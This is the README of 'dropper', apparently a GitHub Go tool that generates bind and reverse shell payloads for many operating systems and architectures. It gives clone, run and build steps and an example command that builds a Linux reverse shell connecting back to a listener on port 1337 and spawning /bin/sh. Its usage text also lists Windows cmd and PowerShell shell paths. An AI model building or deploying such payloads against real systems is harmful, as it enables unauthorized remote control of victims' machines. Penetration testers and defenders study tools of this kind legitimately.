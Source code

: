 Dropper

In order to run dropper, you must already have your GOPATH configured properly.
For more information on setting up your GOPATH and Golang environment, please visit the golang wiki on GitHub: 

https://github.com/golang/go/wiki/SettingGOPATH

If everything is all set, navigate to your GOPATH on your system run clone the repo using `git` or `go`.

<code>git clone https://github.com/im4x5yn74x/dropper.git</code>

<code>go get github.com/im4x5yn74x/dropper</code>

Once cloned, change to the dropper folder and give it a test run.

<code>cd dropper/;</code><br>
<code>go run dropper.go</code>

+...|Choose an OS|...+

- windows
- linux
- freebsd
- nacl
- netbsd
- openbsd
- plan9
- solaris
- dragonfly
- darwin
- android

>_: 

Feel free to compile it and use provide arguments to quickly build your payloads. 

<code>go build dropper.go</code><br>
<code>./dropper -a 386 -o potato -p linux -l 127.0.0.1:1337 -s /bin/sh -t reverse</code><br>
<code>./dropper -h</code>
<pre>
Usage of ./dropper:
	-a string
		Architecture: 386, amd64, amd64p32, arm, arm64, ppc64, ppc64le, mips, mipsle, mips64, mips64le, s390x, sparc64
	-l string
		Listening host: <listening ip:port>
	-o string
		Output filename: <anything goes>
	-p string
		Operating System: windows, linux, freebsd, nacl, netbsd, openbsd, plan9, solaris, dragonfly, darwin, android
	-s string
		Shell type: C:\Windows\System32\cmd.exe, C:\Windows\SYSWOW64\WindowsPowerShell\v1.0\powershell.exe, /bin/sh, /system/bin/sh
	-t string
		Payload type: bind/reverse
</pre>
 
